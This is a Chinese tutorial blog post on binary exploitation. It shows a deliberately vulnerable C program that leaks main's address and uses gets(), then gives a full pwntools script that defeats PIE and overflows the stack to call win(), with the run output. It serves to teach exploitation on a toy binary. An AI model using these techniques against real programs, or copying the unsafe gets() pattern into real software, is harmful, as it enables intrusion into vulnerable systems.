 ```yaml
---
title: '利用已泄漏信息绕过 PIE'
date: '2023-08-22'
lastmod: '2023-08-22'
tags: ['PWN', 'Stack']
draft: false
summary: '32-bit 与 64-bit 之间的差异'
authors: ['default']
---
```


## 0x01 源码

LINK

```c:source.c
#include <stdio.h>

int main() {
  vuln();

  return 0;
}

void vuln() {
  char buffer[20];

  printf("Main Function is at: %lx\n", main);

  gets(buffer);
}

void win() {
  puts("PIE bypassed! Great job :D");
}
```

程序输出 `main` 的地址，我们可以通过它来计算出基地址。然后我们可以利用这个基地址计算出 `win()` 的地址。

## 0x02 分析

让我们运行该脚本以确保它是正确的 :D

```
$ ./vuln-32
Main Function is at: 0x5655f1b9
```

正如我们所期望的，它打印了 `main` 的地址。

## 0x03 利用

首先，让我们设置脚本。创建一个 `ELF` 对象（稍后会变得非常有用），然后启动该进程。

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()
```

现在我们要获取 `main` 函数的地址。为此，我们可以简单地接收它，然后读取。

```python
p.recvuntil('at: ')
main = int(p.recvline(), 16)
```

<Note>
  由于我们接收了除地址之外的整行，因此只有地址才会出现在 `p.recvline()` 中。
</Note>

现在我们将使用之前创建的 `ELF` 对象并设置它的基地址。`sym` 存储的是函数的相对偏移量，我们只要用绝对地址减去相对偏移就可以得到基地址。

*设置基地址前 `sym` 字典中存储的是各函数的相对偏移量；设置基地址之后，`sym` 会变为存储各函数的绝对地址。*

```python
elf.address = main - elf.sym['main']
```

在这个例子中，`elf.sym['main']` 将返回 `0x11b9`；如果我们设置基地址后再次运行它，它将返回 `0x11b9 + 基地址` 的值。本质上，我们是从泄漏的地址中减去 `main` 的偏移量，以获得二进制文件的基地址。

现在我们有了可以调用 `win()` 的基本信息，我们可以调用 `win()` 了：

```python
payload = b'A' * 32
payload += p32(elf.sym['win'])

p.sendline(payload)

p.interactive()
```

<Note>
  我假设你知道如何找到溢出 Padding 以及其他内容，因此我不会向你展示其中的每一步具体该怎么做，希望你能通过自己的能力解决它们。

  如果你不知道该怎么办，请先去看我之前写的文章，好好思考每一步为什么这样做，相信会有所帮助。
</Note>

```
$ python exp.py
[*] 'vuln-32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process 'vuln-32': pid 147342
PIE bypassed! Great job :D
```

### 1x01 最终 Exploit

```python {title="exp.py"}
from pwn import *

# context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()

p.recvuntil('at: ')
main = int(p.recvline(), 16)

elf.address = main - elf.sym['main']

payload = b'A' * 32
payload += p32(elf.sym['win'])

p.sendline(payload)

p.interactive()
```

## 0x04 总结

通过泄漏的 `main` 地址，我们能够计算出二进制文件的基地址。由此我们可以计算出 `win` 的地址并调用它。

## 0x05 64-bit

自己尝试一下 64-bit 的版本该怎么绕过。

LINK

